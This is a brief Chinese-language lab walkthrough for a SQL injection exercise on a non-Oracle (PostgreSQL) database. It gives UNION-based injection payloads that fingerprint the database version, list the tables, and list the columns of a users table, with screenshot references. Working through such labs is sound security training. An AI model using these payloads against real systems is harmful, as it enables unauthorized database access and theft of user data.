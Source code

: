 
**列出非Oracle数据库上的数据库内容**

```
' union select version(),null-- 
```

![image-20250430220029551](./img/image-20250430220029551.png)

判断为`PostgreSQL`

```
'+union+select+table_name,null+from+information_schema.tables--+
```

```
'+union+select+column_name,null+from+information_schema.columns+where+table_name='users_ivcwxi'--+
```

![image-20250430221546311](./img/image-20250430221546311.png)
